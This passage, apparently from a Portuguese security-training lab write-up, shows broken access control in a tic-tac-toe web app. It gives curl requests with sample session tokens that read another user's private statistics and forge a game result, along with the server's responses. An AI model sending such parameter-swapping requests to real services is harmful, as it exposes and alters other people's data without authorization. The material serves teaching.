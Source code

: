 ### 🔥

Como esta solicitação AJAX está sendo feita passando o nome de usuário como parâmetro de URL, pode indicar que somente este parâmetro está sendo utilizado para verificar a permissão para obter os dados. Para verificar isso, usando a mesma `tictacsession`, um invasor pode substituir `user1` por outro usuário conhecido, como `user2` por exemplo:

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost.:10005/statistics/data?user=user2'
```

```json
{
  "chartData": [
    { "y": 100, "label": "Wins" },
    { "y": 0, "label": "Ties" },
    { "y": 0, "label": "Loses" }
  ],
  "numbers": { "games": 1, "wins": 1, "ties": 0, "loses": 0 }
}
```

Este fato representa uma vulnerabilidade da `Quebra de controle de acesso`, permitindo que um invasor veja as estatísticas privadas de todos os usuários conhecidos.

#### A falta de validação de cookies do usuário permite que um invasor manipule as estatísticas do usuário

### 👀

Usando a mesma metodologia, um invasor agora pode verificar o que o aplicativo faz quando um jogo termina e tenta armazenar o resultado. Analisando o inspencionar do navegador mais uma vez revela que foi feito um POST para a rota `/game`, como pode ser visto na imagem a seguir:

<p  align="center"><img  src="images/attack4.png"/></p>

Essa solicitação é feita usando dois parâmetros, `user` e `result`, conforme mostrado abaixo:

<p  align="center"><img  src="images/attack5.png"/></p>

Para replicar este POST usando o comando curl (use seu próprio token `tictacsession`), você pode digitar o seguinte comando:

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/game' --data-binary 'user=user1&result=win'
```

```json
OK
```

### 🔥
